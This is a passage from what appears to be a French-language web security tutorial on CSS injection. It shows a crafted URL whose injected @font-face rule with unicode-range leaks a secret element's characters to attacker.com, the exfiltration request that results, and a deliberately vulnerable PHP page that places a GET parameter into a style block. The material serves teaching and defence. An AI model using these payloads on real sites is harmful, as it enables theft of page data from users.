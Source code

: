 ```html
```
{% endcode %}

Le lien malicieux permettant l'exploitation en fonction de la valeur de l'attribut `class` est alors le suivant :

{% code overflow="wrap" %}
```
https://vulnerable.com/font-face-et-descripteur-unicode-par-class.php?color=red;}@font-face{font-family:attack;src:url(https://attacker.com/?leak=s);unicode-range:U%2b0073;}.secret{font-family:attack;}
```
{% endcode %}

{% hint style="warning" %}
Attention à bien encoder le caractère "+" par son équivalent URL encodée "%2b".
{% endhint %}

{% code overflow="wrap" %}
```http
GET /?leak=s HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Dans le cas où il existe plusieurs éléments HTML portant le nom de `class`, il est possible de cibler précisément celle désirée en utilisant la pseudo-classe CSS `nth-child(n)` ([https://developer.mozilla.org/fr/docs/Web/CSS/:nth-child](https://developer.mozilla.org/fr/docs/Web/CSS/:nth-child)) :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <style>
     h1 {
        color: <?php echo htmlspecialchars($_GET['color'], ENT_QUOTES | ENT_SUBSTITUTE | ENT_HTML5, "UTF-8") ?>;
      }
  </style>
  </head>
  <body>
    <h1>Injection CSS - récupération de la valeur d'un élément HTML par sa class via @font-face, descripteur unicode et nth-child()</h1>
    <span class="secret">notImportant</span>
    <span class="secret">s3cr3t</span>
  </body>
</html>
```
{% endcode %}
